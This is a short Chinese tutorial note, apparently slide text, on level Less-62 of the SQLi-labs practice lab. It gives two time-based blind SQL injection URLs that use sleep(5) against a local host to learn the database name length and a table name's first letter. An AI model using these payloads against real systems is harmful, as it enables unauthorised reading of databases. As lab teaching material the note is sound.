

# Less-62
本关中是对输入的次数做了限制，必须在130次请求之内获取信息，否则会刷新表名
SELECT * FROM security.users WHERE id=('1') LIMIT 0,1
看到这么多次数，第一时间想到了就是坑爹的延时注入，我们在这里演示一个延时的写法，在后来可能大概不放鸽子的课程中会写一个
1. http://127.0.0.1/sqli/Less-62/index.php?id=1‘) and if( (length(database()) = 1) ,1, sleep(5) ) --+ 首先判断数据库的长度（不过好像已经给出了数据库的名字了。。。。）
2. http://127.0.0.1/sqli/Less-62/index.php?id=1‘) and if(   left( (select table_name from information_schema.tables where table_schema=’CHALLENGES‘ limit 0,1) ,1 ) >  ’a‘ ,1, sleep(5) ) --+ 判断该表的第一位字母是不是比a大